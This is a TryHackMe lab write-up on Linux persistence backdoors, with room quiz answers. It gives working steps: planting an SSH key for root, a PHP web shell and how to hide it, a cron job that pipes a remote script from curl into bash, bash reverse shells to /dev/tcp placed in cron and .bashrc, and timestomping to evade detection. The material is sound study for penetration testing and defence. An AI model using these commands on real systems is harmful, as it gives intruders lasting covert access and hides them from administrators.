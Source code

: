 # Linux Backdoors

**Date:** 17, May, 2021

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/linuxbackdoors) to go to the TryHackMe room.

## Introduction
- A **backdoor** is simply something we can do to ensure our consistent access to the machine.
- So even if the machine is rebooted, shut down or whatever, we would still be able to have access to it. 

---

## SSH Backdoors
- The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.
- Steps:
    1. Run `ssh-keygen` in your local machine.
    2. Add the public key to `authorized_keys` in the `root/.ssh` directory of the target machine. 
        - Ensure proper permissions: `chmod 600 ~/.ssh/authorized_keys`
    3. Now that we have left our backdoor, we can simply login as **root** using the following commands:
        - `chmod 600 id_rsa` (This is necessary because if we don't do it, ssh will complain about permissions not being secure enough on the key)
        - `ssh -i id_rsa root@ip` to login into our desired machine.

- **Note:** This backdoor *isn't hidden at all*. Anybody with the right permissions would be able to remove our ssh public key or the file authorized_keys entirely.

### In what directory do we place our keys ?
- **Answer:** .ssh

### What flag in ssh do we use to show our private key?
- **Answer:** -i

---

## PHP Backdoors

- If you get root access on a Linux host, you will most likely search for creds and or any useful information in the web root. The web root is usually located in : `/var/www/html`.

- You can create a php file with any name and put the following piece of code:

<script src="https://gist.github.com/DhilipSanjay/ce5155652a9b92b1d53809272c607a0c.js"></script>

- Notice that we are using : `$_REQUEST['cmd'])`, which means that you can pass that parameter either in GET or in POST data.

- To access the shell:

```
- If you left the file in /var/www/html/shell.php | You should be able to access it directly using : http://ip/shell.php

- If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that : http://ip/somedirectory/shell.php
```

- Here are some ways that we could make this backdoor a little more hidden:

```
1. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.
```

## CronJob Backdoors

- View the contents of `/etc/crontab`:

```bash
$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

- This represents all the tasks that are scheduled to run at some time on your machine.
- In the example above, you can see that there is a "*" symbol under the "h". This means that the following task would run every hour.
- Add this line into our cronjob file (* for everything -> our task will run every minute, every hour, every day , etc.):

```bash
* *     * * *   root    curl http://<yourip>:8080/shell | bash
```

- The contents of the shell file:

```bash
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

- We would have to run an HTTP server serving our shell using `python3 -m http.server 8080`
- Don't forget to listen on your specified port with: `nc -lvnp <port>`
- **Note:** Please note that this backdoor isn't really hidden because everyone can see it just by looking inside `/etc/crontab`.

### What does the letter "m" mean in cronjobs?
- **Answer:** minute

### What does the letter "h" mean in cronjobs?
- **Answer:** hour

---

## .bashrc Backdoors

- If a user has bash as their login shell, the **.bashrc** file in their home directory is executed when an interactive session is launched.

- You could simply run this command to include your reverse shell into their **.bashrc**.

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

- **Note:** 
    - One important thing is to always have your nc listener ready as you don't know when your user will log on.
    - This attack is very sneaky as nobody really thinks about ever checking their **.bashrc** file.
    - On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

---

## pam_unix.so Backdoors

- **pam_unix.so** is one of many files in Linux that is responsible for **authentication**.

- References
    - [Creating Backdoor in PAM](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)
    - [Linux PAM Backdoor - Script](https://github.com/zephrax/linux-pam-backdoor)

---

## Making Detection More Difficult

- To make detection of all of these backdoors more difficult one can adjust modification time of the created files (this is what ls command shows) to a past date:

```bash
touch -t YYYYMMDDhhmm <file>
```

---

## References
- [9 Ways to backdoor Linux](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)